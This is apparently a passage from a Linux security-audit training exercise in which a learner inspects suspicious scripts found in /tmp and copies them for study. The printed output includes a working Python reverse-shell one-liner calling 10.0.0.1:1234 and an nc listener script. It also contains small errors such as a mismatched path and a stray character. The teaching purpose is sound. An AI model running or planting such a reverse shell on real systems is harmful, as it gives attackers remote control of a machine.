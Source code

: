 - These filenames are not very useful to humans. This is because they are temp files saved by programs for their own use.

- There are multiple files ending in `sh`, which indicates a script file.

- This is highly suspect, as scripts are in no way "temporary" files.

- In addition, while it's not clear what these files do, they are clearly not named like a "normal" temp files.


Run `cat /tmp/a9xk.sh`

Run `cat /tmp/rev_shell.sh`

Run `cat /tmp/listen.sh`

Output should read:

```bash
$ cat /tmp/a9xk.sh
#!/bin/bash
sudo stress --cpu  8 --vm 1 --io 3 --vm-bytes 256 2> /dev/null

$ cat /rev_shell.sh
#!/bin/bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'i

$ cat /tmp/listen.sh
#/bin/bash
nc -lvp 4444 > /tmp/rev_shell.sh &
renice -n 1 $(pidof nc)
```

It's unclear what these files do, but they are clearly unlike the other files in `/tmp`.

- Since these files still live in `/tmp`, it was probably planted recently, meaning the attacker may still be active.

- While the rest of the audit turned up no evidence, this discovery alone suggests that a real threat to the system is present and active.

- Furthermore, since these files are scripts, the next logical step is to look at which programs are running and determine if any of these potentially malicious scripts are currently active on the system.

For now, we want to make a copy of the scripts we found.

- Run `sudo cp /tmp/a9xk.sh /tmp/rev_shell.sh /tmp/listen.sh ~/research`

You are able to copy several files at once this way.

#### Directories Summary

Your audit took you to the following directories:

- `/etc`: Stores host-specific system wide configuration files are stored, as well as the most sensitive files on a Linux system.
